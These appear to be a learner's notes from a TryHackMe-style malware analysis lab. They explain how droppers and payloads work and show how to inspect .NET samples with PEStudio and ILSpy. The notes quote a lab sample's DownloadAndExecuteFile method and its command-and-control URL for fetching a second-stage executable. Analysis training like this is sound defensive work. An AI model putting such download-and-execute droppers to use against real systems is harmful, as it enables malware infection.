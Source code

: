 1. **Stage 1 - Dropper:** This binary is usually a lightweight, basic binary responsible for actions such as enumerating the operating system to see if the payload will work. Once certain conditions are verified, the binary will download the second - much more malicious - binary from the attacker's infrastructure.
2. **Stage 2 - Payload:** This binary is the "meat and bones" of the attack. For example, in the event of ransomware, this payload will encrypt and exfiltrate the data.

phishing email > malicious file attachment > download > execute malware

```
2 .NET binaries using ILSpy using demo.exe

demo.exe > right click > Properties    Application (.exe)

(Windows) PEStudio > file > open > demo.exe

sha256 hash 
signature .NET
file type executable
cpu 64 bit 

# side panel
footprints (6) > section>.text>md5

# side panel
indicators (strings > url)   /img/tryhackme.connect.png

----------

ILSpy > file > open > demo.exe

# side panel
Assemblies
	DemoBinary
		Program
			Main(string([])):void 


It will download a PNG file to the user's Desktop from the URL: http://10.10.10.10/img/tryhackme_connect.png


-----------

ILSPy > file > open > WarevilleApp.exe 

WarevilleApp
	Form1
		IsWindows()
		DownloadAndExecuteFile()
	Program
		Main():void 

string address = "http://mayorc2.thm:8080/dw/explorer.exe";
```
